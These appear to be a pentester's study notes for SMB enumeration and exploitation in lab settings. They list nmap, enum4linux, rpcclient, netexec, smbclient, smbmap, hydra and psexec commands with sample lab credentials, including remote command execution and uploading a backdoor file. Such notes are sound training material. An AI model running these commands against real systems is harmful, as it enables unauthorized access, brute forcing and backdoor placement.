 

Smb-double-pulsar-backdoor —>nmap
vuln-ms17-010 =eternal blue —>nmap
linux/samba/is_known_pipename  => This above module triggers an arbitrary shared library load vulnerability in Samba versions 3.5.0 to 4.4.14

Access shares, get user name, brute force user and login again with bruteforced users.
Tips:- enum users and later brute force

## Listing Shares
- nmap --script smb-enum-shares.nse -p445 192.144.106.3
- auxiliary/scanner/smb/smb_enumshares
- enum4linux -S 192.144.106.3
- smbclient -L 192.144.106.3 -N

If username and password is provided, more enum can be done…
![](../../Attachements/Pasted%20image%2020250223174953.png)

## NULL SESSION

rpcclient -U "" -N 192.126.66.3
![](../../Attachements/Pasted%20image%2020250223175027.png)
srvinfo = gives server info in RPC CLIENT
enumdomusers = enum users
lookupnames admin = sid of admin


## ENUM4LINUX
```bash
enum4linux -a 1.1.1.1 = Automated script for enumuration
enum4linux -u administrator -p vagrant -U 1.1.1.1
```

## NetExec
    The network execution tool
```bash
netexec smb 10.10.11.35 -u 'atish' -p '' --shares => guest access

netexec smb 10.10.11.35 -u '.' -p '' --shares =>guest access

netexec smb 10.10.11.35 -u '.' -p '' --rid-brute => Enumerate users by bruteforcing the RID on the remote target

netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
(rid brute will give all user/group,, this command will give user and description both...)

```

### --rid-brute
```
netexec smb 10.10.11.35 -u '.' -p '' --rid-brute
```
![](../../Attachements/Pasted%20image%2020250223190204.png)

Here above --rid-brute work using RPCCLIENT method:::
```
rpcclient -U 'CICADA.htb/' 10.10.11.35
lookupnames administrator
lookupsid 7346338473874878blah-blah
```
![](../../Attachements/Pasted%20image%2020250223190123.png)
Whenever it is unknown, it displays the name
### Enum users::
```
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![](../../Attachements/Pasted%20image%2020250223193738.png)




## NMAP
```bash 
- ls -al /usr/share/nmap/scripts/ | grep smb
- nmap -p 445 --script smb-os-discovery 10.10.125.84
- **`nmap -p 445 --script smb* 10.10.125.84` ⇒runs all script**
- nmap -p 445 --script smb-enum-shares 10.10.125.84 ⇒shares
- nmap -p445 --script smb-protocols 10.0.17.200
- nmap -p445 --script smb-security-mode 10.0.17.200
```

 ### Nmap enum using credentials
 ```bash
- nmap -p445 --script smb-security-mode 10.0.17.200
- nmap -p445 --script smb-enum-shares --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-users --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- nmap -p445 --script smb-enum-domains--script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
- --script smb-enum-groups
- --script smb-enum-domains
- --script smb-enum-services
- nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 10.2.27.87
```

## SMBCLIENT
```bash
smbclient -L //10.10.11.35 -N

smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.10.11.35/dev  =>access using creds

smbclient -U 'david.orelious' //10.10.11.35/dev => same as above access using cres


smbclient -L ////192.126.66.3// -N =Nullsession, list shares

smbclient //10.10.125.84/ADMIN$ = connect to the share with annon

smbclient //10.10.125.84/ADMIN$ -N

smbclient -U '.' //10.10.125.84/ADMIN$ => random anon session

smbclient //10.10.125.84/IPC$ = connect to IPC

smbclient //192.208.227.3/public -N => connected

smbclient //10.10.125.84/BillySMB ⇒ To access SMB Shares

**`TIP:` Sometime Some shares wont be listed but can be viewed using above command.**
```
![](../../Attachements/Pasted%20image%2020250223175631.png)
Access share once password is known::
```
smbclient -U 'david.orelious' //10.10.11.35/dev
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.10.11.35/dev
```
![](../../Attachements/Pasted%20image%2020250223194133.png)
or specify both username and password using %==> above % is uname and after is password
```
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' //10.10.11.35/dev
```
![](../../Attachements/Pasted%20image%2020250223200103.png)
mget = command to download file
![](../../Attachements/Pasted%20image%2020250223185217.png)


# SMBMap
Allows users to enumerate samba share 
Allows file upload/download/delete
```bash
smbmap -u guest -p "" -d . -H 10.10.125.84 =shares also

smbmap -u administrator -p smbserver_771 -d . -H 10.0.28.123 = admin will have more privilege

smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig’ => can be used to run commands

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L = List drives on local host

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ = List content of C

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor' ⇒ Upload File in C drive

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$’ ⇒ Verify upload

smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' ⇒ Download File

- smbmap -H 192.212.251.3 -u admin -p password1 ⇒ ONCE CRED IS KNOWN
```

# Bruteforce
```bash
hydra -l admin -P /usr/share/password.txt 10.10.10.10 smb
hydra -L User.txt -P /usr/share/password.txt 10.10.10.10 smb
```


# Exploiting SMB with PsExec
![](../../Attachements/Pasted%20image%2020250223181056.png)
![](../../Attachements/Pasted%20image%2020250223181136.png)
![](../../Attachements/Pasted%20image%2020250223181214.png)
![](../../Attachements/Pasted%20image%2020250223181247.png)
![](../../Attachements/Pasted%20image%2020250223181306.png)

## Mannual
We need to have credetials to run this too. We can bruteforce the credentials before using this tool.
psexec.py is a tool in python to authenticate with the system.
```bash
psexec.py Administrator@10.2.29.107 cmd.exe
```
![](../../Attachements/Pasted%20image%2020250223181540.png)
![](../../Attachements/Pasted%20image%2020250223181551.png)
nt authority\system = highest authority

## Metasploit
Now lets use psexec in **`METASPOLIT
NOTE: when we use [psexec.py](http://psexec.py) it wont upload anything to target but metaspolic psexec upload malacious code in the target.
![](../../Attachements/Pasted%20image%2020250223181727.png)
![](../../Attachements/Pasted%20image%2020250223181736.png)
![](../../Attachements/Pasted%20image%2020250223181749.png)


